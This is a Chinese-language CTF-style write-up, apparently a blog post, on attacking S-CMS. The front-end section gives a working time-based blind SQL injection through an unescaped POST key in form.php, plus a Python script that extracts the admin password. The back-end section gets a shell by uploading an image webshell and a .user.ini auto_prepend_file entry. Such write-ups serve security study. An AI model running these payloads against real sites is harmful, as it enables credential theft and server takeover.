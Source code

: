 ```yaml
---
title: "闪灵cms前台注入+后台getshell"
date: 2021-07-16T17:19:18+08:00
---
```


题目给了sql文件，其中管理员密码进行了更改。

## 前台注入

web界面非常美观，**admin**路由下是登陆界面，同时有滑动条的检测，爆破的思路肯定走不通。看一下源码对登陆处的数据处理。

在`function/function.php`下可以看到：

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/07/20210728215118.png)

在`check_input`下都调用了`addslashes`,同时还有许多的过滤那常规注入是走不通了，这里巧的地方在于转义只对`value`进行了转义。

看看`function/form.php`，关键点在第162行。

```php
mysqli_query($conn,"Insert into ".TABLE."response(R_cid,R_content,R_time,R_rid,R_member,R_ip) values(".$x.",'".htmlspecialchars($y)."','".$R_time."','".$R_rid."',".$M_id.",'".getip()."')");
```

这在一个嵌套了很多层的if语句内，根据走向前提交一个test

```
http://127.0.0.1/cms/s_cms/web/function/form.php?action=input
POST:1-sleep(5)=xxx
```

成功延迟了5s,也就是之前对`key`没有进行检查造成的伏笔。

```python
import requests,time
x = [str(x) for x in range(0, 10)]
y = [chr(y) for y in range(97, 123)]
dic = x+y
url = 'http://127.0.0.1/cms/s_cms/web/function/form.php?action=input'
result=''
for i in range(1,33):    
    for j in dic:        
        data={            "1-if((select(substr(A_pwd,{},1))from/**/SL_admin)='{}',sleep(3),1)".format(i,j):"xxx"        }        
        startTime = time.time()        
        res = requests.post(url=url,data=data)        
        endTime = time.time()        
        if endTime - startTime > 3:            
            result=result+j            
            print('[+] '+result)            
            break
```

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/07/20210728232719.png)

## 后台getshell

后台的功能挺多的，但是翻了很久都没能找到可以利用的点，无意见翻到这个检测更新：

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/07/20210728233819.png)

可以得知我们当前版本是存在文件上传漏洞的，看一看`function/upload.php`

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/07/20210728235433.png)

这里文件上传是一个黑名单+白名单的检测，但是黑名单里并没有`ini`，我们可以在安全设置里自定义`$S_filetype`，先随便传一个图片🐎，再传一个`.user.ini`文件

```ini
auto_prepend_file=theoyu.png
```

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/07/20210729000801.png)